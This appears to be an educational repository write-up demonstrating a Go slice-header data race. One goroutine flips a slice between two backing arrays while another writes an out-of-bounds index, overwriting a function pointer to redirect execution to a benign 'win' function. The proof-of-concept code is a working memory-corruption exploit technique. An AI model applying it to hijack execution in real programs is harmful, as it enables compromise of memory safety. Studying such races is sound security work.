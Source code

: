 # Unsafe Slice Semantics
## Building
```
$ go run .
win 514 16
exit status 1
```

## Underlying slice structures
```go
type slice struct {
	array unsafe.Pointer
	len   int
	cap   int
}

// A notInHeapSlice is a slice backed by go:notinheap memory.
type notInHeapSlice struct {
	array *notInHeap
	len   int
	cap   int
}
```

## Slice Length Race
The `slice` type in Go is represented by an underlying structure composed of three fields:

* `array`: a pointer to the underlying array, either on the heap or in the stack.
* `len`: the length of the underlying array.
* `cap`: the capacity of the underlying array.

Because the `slice` type is effectively a proxy to the underlying array, operations performed agains the underlying array are not atomic. This allows us to either observe or manipulate memory adjacent to the underlying array.

```go
// StructFuncPtr is a structure containing a single field `funcptr`, which will be overridden by our slice assignment.
type StructFuncPtr struct {
	funcptr func()
}
```

Given the definition of `a`, `b`, and `confused` as slices of pointers to an integer, and `target` defined as an instance of `StructFuncPtr`, the following is the premise of the dangerous race:

1. `a` is assigned an array with a greater length than `b`.
2. `b` is assigned an array wigh a lesser length than `a`.
3. The value of `confused` is assigned back and forth in a loop between `a` and `b` after being initialized to `b`, in a separate coroutine `A`.
4. We attempt to assign an index of `a` to our attacker-controlled value in a separate coroutine `B`. This index is out-of-bounds for `b` but not for `a`.
5. A race is encountered within coroutine `B`, allowing us to overwrite into `target`'s `funcptr` field.
6. `target.funcptr` is executed, and coroutine `B` transitions into executing the attacker-specified function address.

In our [example](./main.go), we can observe this type of race in a pure form. We start by defining a `win` function to emulate an attacker-controlled value we are racing to execute. We also define an `address` function, which will let us calculate an integer-formatted address for use during the race.


```go
// Utility functions

// i and j hold loop counters for the `main` coroutine, and the spawned coroutine.
var i, j int

// address returns the integer address of a given parameter
func address(i interface{}) int {
	addr, err := strconv.ParseUint(fmt.Sprintf("%p", i), 0, 0)
	if err != nil {
		panic(err)
	}
	return int(addr)
}

// Win is a simple target because it expects no parameters, so we don't have to groom the stack.
func win() {
	fmt.Println("win", i, j)
	os.Exit(1)
}
```

We then define a structure `StructFuncPtr`, which contains a single field `funcptr`. This field is what we will attempt to overwrite during the race, allowing us to achieve control of execution in the main coroutine.

```go
// StructFuncPtr is a structure containing a single field `funcptr`, which will be overridden by our slice assignment.
type StructFuncPtr struct {
	funcptr func()
}
```

Within `main`, we then calculate the address of our `win` function, which serves as our example "attacker-controlled" value in our race. We can then initialize `a` and `b` to their initial slice values, `target` to a new instance of the `StructFuncPtr`, and confused to the value of `b`.

```go
	// Calculate the address of the win function so we can emulate the "attacker controlled" value
	winAddr := address(win)

	// Define the variables involved in the race:
	//
	// * `a`: The longer slice we will use to confuse the `length` attribute during the race.
	// * `b`: The shorter slice we will use when confused to overrite `target`'s `funcptr` field.
	// * `target`: The instance of `StructFuncPtr` which will be overridden into at the `funcptr` field.
	a := make([]*int, 2)
	b := make([]*int, 1)
    target := new(StructFuncPtr)
...
	// Instantiate `confused` to the value of `b` initially.
	confused := b
```

We can then spawn a coroutine to begin flipping the values of `confused` between `a` and `b`, allowing us to begin attempting our race.

```go
// Spawn a coroutine to flip the value of of confused between `a` and `b`, which will produce our race.
	go func() {
		for {
			confused = a

			// Keep this function from being optimized which would prevent the race.
			func() {
				if i >= 0 {
					return
				}
				fmt.Println(confused)
			}()

			confused = b
			i++
		}
	}()
```

Once spawned, the main coroutine then begins infinitely looping, attempting to assign index 1 to the `win` address. When the race condition is reached, `confused` will have the length of `a`, but point to `b`, allowing the assignment to succeed, but in fact overwrite `funcptr` within `target`. Because the `funcptr` is no longer `nil`, and instead points to `win`, we will subsequently execute our `win` function and exit.

```go
	// Spawn a coroutine to attempt to assign index 1 of `confused` to the win addr. This will result in
	// overwriting `target`'s `funcptr` field when `confused`s length is equal to `a`, but data points to `b`,
	// and we attempt to assign index 1 to the win address, as the win address will be put into the `funcptr`
	// field value.
	//
	// Once the `funcptr` has potentially been overwritten (which we detect based on whether `funcptr` is nil)
	// we can attempt to execute it.
	for {
		j++
		func() {
			defer func() { recover() }()
			confused[1] = &winAddr
		}()
		if target.funcptr != nil {
			target.funcptr()
		}
	}
```